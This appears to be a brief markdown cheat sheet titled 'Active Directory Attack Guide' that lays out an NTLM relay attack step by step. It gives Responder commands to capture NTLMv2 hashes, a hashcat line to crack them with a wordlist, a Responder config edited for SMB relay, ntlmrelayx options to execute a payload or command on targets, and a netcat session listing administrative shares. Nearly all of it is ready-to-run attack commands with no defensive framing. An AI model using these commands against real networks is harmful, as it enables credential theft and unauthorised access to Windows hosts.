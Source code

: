## Active Directory Attack Guide.

#### Capture NTLMv2 Hashes
```
sudo responder -I eth0 - rdwv
```
#### Crack with Hashcat
```
hashcat -m 5600 hash rockyou.txt
```

#### Edit the Responder Config File for SMB Relay Attack
```
nano /etc/responder/responder.conf

; Servers to start
SQL = On
SMB = Off
RDP = On
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = Off
HTTPS = On
DNS = On
LDAP = On
DCERPC = On
WINRM = On
```

#### Running Responder
```
sudo responder -I eth0 - rdwv
```
#### Starting NTLMrelayx part of Impacket Tools
```
ntlmrelayx.py -tf targets.txt -smb2support -i 
--help:
-i -- intercative
-e -- execute payload (test.exe)
-c -- run a command (whoami)
```

#### Netcat Listener on localhost
```
nc 127.0.0.1 11000
Type help for list of commands
# shares
ADMIN$
C$
IPC$
Share
```


